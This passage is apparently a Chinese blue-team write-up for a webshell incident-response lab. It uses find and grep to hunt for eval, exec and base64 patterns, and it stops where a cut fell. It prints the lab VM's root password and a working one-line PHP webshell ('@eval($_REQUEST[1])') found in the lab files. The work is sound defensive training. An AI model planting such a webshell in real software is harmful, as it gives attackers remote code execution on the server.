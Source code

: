 ```yaml
---
title: 【玄机靶场】第一章 应急响应- webshell查杀
date: 2025-09-05
categories:
  - 靶场
  - 蓝队
image: images/43.webp
---
```

# 简介
```php
靶机账号密码 root xjwebshell
```
1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
2.黑客使用的什么工具的shell github地址的md5 flag{md5}
3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
4.黑客免杀马完整路径 md5 flag{md5}
# 开启靶场
![Pasted image 20250319203849](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319203849.png)
# 过程
## 一、flag1
**黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}**
搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征
```php
find ./ type f -name "*.jsp" | xargs grep "exec(" 
find ./ type f -name "*.php" | xargs grep "eval(" 
find ./ type f -name "*.asp" | xargs grep "execute(" 
find ./ type f -name "*.aspx" | xargs grep "eval(" 
```
对于免杀Webshell，可以查看是否使用编码
```php
find ./ type f -name "*.php" | xargs grep "base64_decode" 
```
命令解析：
```php
1. xargs：xargs命令用于将输入数据重新格式化后作为参数传递给其他命令。在这个命令中，`xargs`将`find`命令找到的文件列表作为参数传递给`grep`命令。
2. `grep "eval("`：`grep`命令用于搜索文本，并输出匹配的行。这里`"eval("`是`grep`命令的搜索模式，用于查找包含`eval(`字符串的行。
```
一个一个进行尝试即可：
这里使用：
```php
find ./ type f -name "*.php" | xargs grep "eval(" 
```
发现了三个文件：
```php
./var/www/html/include/gz.php:          eval($payload);
./var/www/html/include/Db/.Mysqli.php:          eval($payload);
./var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```
![Pasted image 20250319203939](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319203939.png)
打开gz.php文件
```php
root@ip-10-0-10-5:/# cd /var/www/html/include
root@ip-10-0-10-5:/var/www/html/include# ls
common.php  Db  default.htm  gz.php  index.htm  index.html  Model
root@ip-10-0-10-5:/var/www/html/include# cat gz.php
```
最后终于在gz.php里面发现了，这样一段代码：
